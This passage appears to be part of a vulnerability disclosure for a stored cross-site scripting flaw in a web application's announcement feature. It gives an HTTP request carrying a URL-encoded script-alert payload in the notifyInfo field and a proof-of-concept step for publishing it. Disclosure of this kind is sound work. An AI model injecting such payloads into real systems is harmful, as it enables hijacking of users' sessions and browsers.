 ```

Accept-Language: zh-CN,zh;q=0.9

Cookie: JSESSIONID=77DABFA8A6AB24922A384BFF7C7B9517

Connection: close

 

notifyInfo=%3Cscript%3Ealert%28%22123456%22%29%3C%2Fscript%3E
```



#### **[Attack Type]**** **Remote

#### **[Impact Code execution]**

False

#### **[Proof of concept]**

Step1: Select "Announcement List" under the "System Management" tab, fill in the constructed payload into the input box, and publish it.

![img](image/index/wps16-1655792597414.jpg) 

![img](image/index/wps17-1655792597414.jpg) 
